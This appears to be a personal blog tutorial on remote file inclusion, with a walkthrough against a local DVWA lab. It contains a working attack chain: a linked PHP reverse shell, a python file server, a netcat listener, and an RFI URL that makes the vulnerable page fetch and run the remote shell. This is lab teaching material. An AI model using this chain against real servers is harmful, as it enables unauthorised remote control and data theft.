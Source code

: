 ```yaml
---
title: Remote file inclusion
date: 14,sep 2022 21:40 PM
categories : [Penetration Tester, Web Hacking ,file inclusion]
tags: [web hacking , file inclusion ]
---
```

# Remote file inclusion (RFI)
![global pic](/assets/rfi.jpg)
## What is RFI
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts , so the hacker can host his web server in the client of the victim that's to give him the power to do a lot of things :
- Code execution on the web server
- Executing client-side code like JavaScript that can lead to other attacks like Cross-site scripting (XSS).
- Denial of Service (DoS)
- Data Theft / Manipulation


![global pic](/assets/rfi2.jpg)
---

## how hacker discover this vulnerabilities

[See this post](https://chalalsaad.github.io/posts/file-inclusion-first-post/)

---

## Remote file inclusion examples
i will attack my [DVWA](https://www.kali.org/tools/dvwa/) lab 
![global pic](/assets/rfi3.png)



First we need [reverse PHP shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) This  script will open an outbound TCP connection from the web server to a host and port of your choice.  Bound to this TCP connection will be a shell.if you are php developer you can build your own , is available in [GitHub](https://github.com/pentestmonkey/php-reverse-shell):

Open the php-reverse-shell.php file by nano or any editor and try to verify double thing of course the ip and the port

![ reverse shell](/assets/rfi4.png)

---
Now we need to create a web server ,me i use [python web  server](https://pythonbasics.org/webserver/) ,you can use other  one doesn't matter.

To start a webserver run the command below:
```shell
python3 -m http.server 8888
```
![global pic](/assets/rfi7.png)

![ reverse shell](/assets/rfi5.png)


Now i will use [netcat](https://fr.wikipedia.org/wiki/Netcat) to listening in the target by his port , so netcat functions as a back-end tool that allows for port scanning and port listening.

To start listening on 4444:
```shell
  sudo nc -lvnp 4444
```
- -l :  listen mode, for inbound connects
- -v           verbose [use twice to be more verbose]
- -n           numeric-only IP addresses, no DNS
- -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])

![ reverse shell](/assets/rfi6.png)

Ultimate step is run this shell in the victim client 
```http
 http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://0.0.0.0:8888/php-reverse-shell.php
```
![ reverse shell](/assets/rfi8.png)

---
![ reverse shell](/assets/rfi9.png)

### our shell is get in the web server of the victim with successfully


![ reverse shell](/assets/rfi10.png)

### now we have the full control on the server, we can run any command we want and access to any hidden file


![ reverse shell](/assets/rfi11.png)







